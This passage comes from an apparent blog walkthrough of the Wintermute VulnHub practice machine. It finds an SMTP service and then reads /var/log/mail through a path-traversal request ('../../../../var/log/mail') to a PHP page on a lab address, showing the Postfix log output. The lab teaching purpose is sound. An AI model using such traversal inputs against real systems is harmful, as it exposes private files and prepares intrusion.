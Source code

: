 ![1-1.png](/assets/images/posts/wintermute-vulnhub-walkthrough/1-10.png)

Remember earlier we found smtp
25/tcp   open  smtp            Postfix smtpd
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
We'll start hunting for the logs.
A Google search tell where the logs can be found `var/log/mail.log`.
Guess what its in log file

http://192.168.251.5/turing-bolo/bolo.php?bolo=../../../../var/log/mail

For an easier read. 
```
view-source:http://192.168.251.5/turing-bolo/bolo.php?bolo=../../../../var/log/mail. 

Apr 14 19:24:31 straylight postfix/smtpd[4787]: connect from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4787]: SSL_accept error from unknown[192.168.251.4]: -1
Apr 14 19:24:31 straylight postfix/smtpd[4787]: warning: TLS library problem: error:1417D18C:SSL routines:tls_process_client_hello:version too low:../ssl/statem/statem_srvr.c:974:
Apr 14 19:24:31 straylight postfix/smtpd[4787]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4787]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:24:31 straylight postfix/smtpd[4723]: connect from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4786]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4786]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:24:31 straylight postfix/smtpd[4723]: SSL_accept error from unknown[192.168.251.4]: -1
Apr 14 19:24:31 straylight postfix/smtpd[4723]: warning: TLS library problem: error:1417D18C:SSL routines:tls_process_client_hello:version too low:../ssl/statem/statem_srvr.c:974:
Apr 14 19:24:31 straylight postfix/smtpd[4723]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4723]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:24:31 straylight postfix/smtpd[4736]: connect from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4736]: SSL_accept error from unknown[192.168.251.4]: -1
```

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator